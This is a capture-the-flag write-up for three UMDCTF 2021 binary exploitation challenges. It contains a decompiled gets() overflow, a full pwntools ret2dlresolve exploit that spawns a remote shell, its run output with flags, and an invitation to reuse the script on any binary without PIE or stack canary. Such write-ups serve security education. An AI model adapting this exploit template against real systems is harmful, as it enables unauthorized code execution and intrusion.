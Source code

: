 # UMDCTF 2021

## Jump Is Easy/Jump Not Easy/Jump Is Found

> Jumping is easy. Where do we want to jump to is the hard part.
>
> `nc chals6.umdctf.io 7001`
>
> author: WittsEnd2
>
> score: 1/10
>
> [jie](jie)
> 
> What happened? This new adventure is not as easy as the first one?
>
> `nc chals6.umdctf.io 7003`
>
> author: WittsEnd2
>
> score: 2/10
>
> [jne](jne)
> 
> We are trying to jump somewhere, but nothing is happening. Can you figure out what is going on?
>
> `nc chals6.umdctf.io 7004`
>
> author: WittsEnd2
>
> score: 3/10
>
> [jnw](jnw)

Tags: _pwn_ _x86-64_ _ret2dlresolve_ _bof_


## Summary

I'm lumping all of these together since I used the exact same code on all of them.  And I'm sure this was _not_ the intended solution.

I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:

[https://syst3mfailure.io/ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve)  
[https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    Stack:    No canary found
    PIE:      No PIE (0x400000)
```

All three had at least the above.  All that is needed for easy ret2dlresolve with `gets`.


### Decompile with Ghidra

```c
undefined8 jump(void)
{
  char local_48 [64];
  
  puts("Where do you want to go?");
  gets(local_48);
  return 0xffffffff;
}
```

Yep, `gets`.  All three of them.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./jnw')

rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]

dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('chals5.umdctf.io', 7004)
else:
    p = process(binary.path)

payload  = b''
payload += 0x48 * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

Alright script-kiddies, take this, change the binary, change the stack frame offset (`0x48`) for the `gets` buffer, change the `remote`, and as long as no PIE and no canary, you'll pwn the box.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jie/jie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loading gadgets for '/pwd/datajerk/umdctf2021/jie/jie'
[+] Opening connection to chals5.umdctf.io on port 7001: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{Sh311c0d3_1s_The_B35T_p14c3_70_jump_70}

# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jne/jne'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/pwd/datajerk/umdctf2021/jne/jne'
[+] Opening connection to chals5.umdctf.io on port 7003: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{wh323_423_WE_G01n9_n3xt?}

# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jnw/jnw'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './jnw'
[+] Opening connection to chals5.umdctf.io on port 7004: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{JuMp_1s_N0w_w0RK1nG}
```
